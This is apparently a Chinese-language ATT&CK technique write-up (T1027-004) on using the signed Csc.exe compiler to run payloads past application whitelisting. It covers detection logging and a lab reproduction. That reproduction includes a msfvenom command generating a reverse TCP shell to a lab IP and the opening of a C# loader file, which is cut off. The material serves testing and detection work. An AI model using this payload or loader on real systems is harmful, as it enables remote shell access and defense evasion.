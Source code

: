 # T1027-004-win-基于白名单Csc.exe执行payload

## 来自ATT&CK的描述

许多软件开发相关的实用程序可用于执行各种形式的代码用于协助开发、调试和逆向工程。这些实用程序通常可以使用合法证书进行签名。签名后，它们就可以在系统上执行。通过可信的进程代理执行恶意代码，从而有效地绕过应用白名单防御解决方案。

## 测试案例

C#的在Windows平台下的编译器名称是Csc.exe，如果你的.NET FrameWork SDK安装在C盘，那么你可以在C:\WINNT\Microsoft.NET\Framework\xxxxx目录中发现它。为了使用方便，你可以手动把这个目录添加到Path环境变量中去。用Csc.exe编译HelloWorld.cs非常简单，打开命令提示符，并切换到存放 test.cs文件的目录中，输入下列行命令:csc /target:exe test.cs 将Ttest.cs 编译成名为 test.exe 的 console 应用程序

说明：Csc.exe所在路径没有被系统添加PATH环境变量中，因此，csc命令无法识别。

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

win7默认位置：

C:\Windows\Microsoft.NET\Framework64\v2.0.50727\csc.exe

C:\Windows\Microsoft.NET\Framework\v2.0.50727\csc.exe

## 检测日志

windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：windows server 2012

### 测试过程

#### 配置payload

```bash
msfvenom -p windows/x64/shell/reverse_tcp lhost=192.168.126.146 lport=4444 -f csharp
```

copy buf 到 Micropoor_Csc.cs shellcode中。

#### Micropoor_Csc.cs

```cs
using System;

using System.Net;

using System.Diagnostics;

using System.Reflection;

using System.Configuration.Install;

using System.Runtime.InteropServices;


// msfvenom -p windows/x64/shell/reverse_tcp lhost=192.168.126.146 lport=4444 -f csharp

public class Program
```